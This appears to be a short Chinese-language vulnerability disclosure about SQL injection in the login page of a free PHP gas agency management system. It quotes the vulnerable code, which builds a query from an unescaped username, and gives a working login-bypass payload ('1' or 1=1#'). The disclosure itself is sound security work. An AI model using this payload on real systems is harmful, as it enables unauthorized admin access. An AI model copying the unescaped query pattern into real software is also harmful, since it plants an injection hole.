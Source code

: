 # 简述
这个CMS的登录界面，未对参数进行转义，没有设置任何防护措施，导致了SQL注入，攻击者可通过万能密码实现登录后台
# 过程演示
文件位置为 gasmark/login.php，部分源码如下
```
if($_POST) {    

  $username = $_POST['username'];
  $password = $_POST['password'];


//echo $password;exit;
  if(empty($username) || empty($password)) {
    if($username == "") {
      $errors[] = "Username is required";
    } 

    if($password == "") {
      $errors[] = "Password is required";
    }
  } else {
    $sql = "SELECT * FROM users WHERE username = '$username'";
    $result = $connect->query($sql);
```
当我们使用如下payload时，可以绕过登录验证，直接进入后言
```
username: 1' or 1=1#
password: 1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e1f59036a87b46529b2403445caf85c2.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3232cb47c9ac418e983f6b7145bcf4d7.png)
源码链接
https://www.sourcecodester.com/php/15586/gas-agency-management-system-project-php-free-download-source-code.html
